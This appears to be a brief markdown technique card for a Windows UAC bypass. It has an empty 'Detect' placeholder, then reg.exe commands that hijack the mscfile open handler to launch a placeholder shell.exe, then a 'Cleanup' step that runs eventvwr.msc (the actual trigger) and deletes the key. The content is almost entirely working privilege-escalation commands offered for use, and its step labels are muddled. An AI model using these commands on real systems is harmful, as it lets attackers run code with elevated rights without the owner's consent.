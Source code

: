 # Manual

## 01 - Detect

> [!IMPORTANT] Conditions
> Write the conditions...

## 02 - Exploit

```
C:\> reg.exe add "HKCU\SOFTWARE\Classes\mscfile\shell\open\command" /f

C:\> reg.exe add "HKCU\SOFTWARE\Classes\mscfile\shell\open\command" /t REG_SZ /d "C:\path\to\shell.exe" /f
```

## 03 - Cleanup

```
C:\> eventvwr.msc

C:\> reg.exe delete "HKCU\SOFTWARE\Classes\mscfile" /f
```